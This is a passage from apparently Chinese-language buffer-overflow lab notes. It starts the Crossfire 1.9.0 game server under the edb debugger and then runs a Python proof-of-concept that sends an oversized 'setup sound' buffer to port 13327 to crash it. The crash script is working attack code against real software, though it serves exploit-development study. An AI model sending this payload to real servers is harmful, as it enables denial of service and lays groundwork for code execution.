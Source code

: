 ```bash
root@debian:/usr/games/crossfire/bin# ./crossfire
...
Welcome to CrossFire,
v1.9.0 Copyright (C) 1994 Mark Wedel. Copyright (C) 1992 Frank Tore Johansen

root@debian:~# edb
Starting edb version: 0.9.22
....
```

![image-20200414160312975](assets/5.BOF.assets/image-20200414160312975.png)

![image-20200506091218357](assets/5.BOF.assets/image-20200506091218357.png)

然后运行，执行poc

```python
#!/usr/bin/python
import socket
host = "10.11.0.128"
crash = "\x41" * 4379
buffer = "\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1024)
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```
